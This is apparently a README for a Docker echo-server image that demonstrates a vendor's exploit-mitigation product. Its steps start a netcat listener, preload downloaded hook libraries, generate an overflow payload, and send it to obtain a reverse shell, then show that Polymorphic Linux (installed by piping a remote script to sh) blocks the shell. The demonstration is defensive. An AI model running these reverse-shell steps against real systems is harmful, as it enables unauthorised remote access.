 # node-echo-server
Docker node.js echo-server repository.

## Running
```
./run.sh
# OR
docker run -d --rm --name echo -p 8080:8080 polyverse/node-echo-server
```

## Stopping
```
docker kill echo
```

## Running interactively (equivalent to automated running described above).
```
docker run -it --rm --name echo -p 8080:8080 polyverse/node-echo-server /bin/sh

node echo-server.js
```
# Using node-echo-server to demonstrate readhook.
(Note: In the following steps, you will need to have a listener running that the reverse-shell will try to connect to. On a Mac, this can look like this:
```
nc -l 5555
```

## Running interactively w/readhook
The following commands add and then run with readhook.
```
docker run -it --rm --name echo -p 8080:8080 polyverse/node-echo-server /bin/sh

apk update && apk add wget ca-certificates && update-ca-certificates

wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/jenkins/basehook.so
wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/jenkins/fullhook.so

LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" node echo-server.js
```

### With the above running container,
a) Generate a payload (e.g. curl localhost:8080/xyzzxMAKELOAD<ip-address><:port>)
b) Pass the payload back to confirm that it creates a reverse shell to the listener.
```
curl localhost:8080/xyzzx:MAKELOADdocker.for.mac.localhost:5555
# <Save this output. It is the payload that will work in OVERFLOW>

curl localhost:8080/xyzzy:OVERFLOW<...the rest of the saved output from above.>
# <Check your listener. It should have a reverse shell to the container.>
```

## Running interactively w/readhook and Polyverse Polymorphic Linux
```
docker run -it --rm --name echo -p 8080:8080 polyverse/node-echo-server /bin/sh

apk update && apk add wget ca-certificates && update-ca-certificates

wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/jenkins/basehook.so

curl https://repo.polyverse.io/install.sh | sh -s <your-api-token>

LD_PRELOAD=/tmp/basehook.so node echo-server.js
```

### Repeat Step b (from above) and confirm that it _does not_ create a reverse shell when Polyverse Polymorphic Linux is installed.
